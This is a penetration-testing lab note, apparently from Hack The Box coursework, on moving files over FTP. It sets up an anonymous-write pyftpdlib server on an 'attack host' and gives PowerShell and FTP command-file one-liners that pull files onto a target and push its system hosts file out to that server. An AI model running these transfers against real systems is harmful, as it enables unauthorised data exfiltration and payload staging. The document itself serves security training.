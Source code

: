 ```yaml
---
description: >-
  FTP Transfer files
title: FTP Transfer files              # Add title here
date: 2024-01-15 08:00:00 -0600                           # Change the date to match completion date
categories: [03 File Transfer, FTP Transfer]                     # Change Templates to Writeup
tags: [file transfer, ftp]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


### FTP Downloads
A way to transfer files is using FTP (File Transfer Protocol), which use port TCP/21 and TCP/20. We can use the FTP client or PowerShell Net.WebClient to download files from an FTP server.

Installation:
```bash
Shuciran@htb[/htb]$ sudo pip3 install pyftpdlib
```

> Then we can specify port number 21 because, by default, pyftpdlib uses port 2121. Anonymous authentication is enabled by default if we don't set a user and password.
{: .prompt-warning }

### Setting up a Python3 FTP Server:
```bash
Shuciran@htb[/htb]$ sudo python3 -m pyftpdlib --port 21
```

### Transfering Files from an FTP Server Using PowerShell
```bash
PS C:\htb> (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```

### Create a Command File for the FTP Client and Download the Target File
```powershell
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo GET file.txt >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye

C:\htb>more file.txt
This is a test file
```


### FTP Uploads
Uploading files using FTP is very similar to downloading files. We can use PowerShell or the FTP client to complete the operation. Before we start our FTP Server using the Python module pyftpdlib, we need to specify the option --write to allow clients to upload files to our attack host.

### Uploading Files using SMB
```bash
Shuciran@htb[/htb]$ sudo python3 -m pyftpdlib --port 21 --write
/usr/local/lib/python3.9/dist-packages/pyftpdlib/authorizers.py:243: RuntimeWarning: write permissions assigned to anonymous user.
  warnings.warn("write permissions assigned to anonymous user.",
[I 2022-05-18 10:33:31] concurrency model: async
[I 2022-05-18 10:33:31] masquerade (NAT) address: None
[I 2022-05-18 10:33:31] passive ports: None
[I 2022-05-18 10:33:31] >>> starting FTP server on 0.0.0.0:21, pid=5155 <<<
```

### PowerShell Upload File
```powershell
PS C:\htb> (New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

### Create a Command File for the FTP Client to Upload a File
```powershell
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128

Log in with USER and PASS first.

ftp> USER anonymous
ftp> PUT c:\windows\system32\drivers\etc\hosts
ftp> bye
```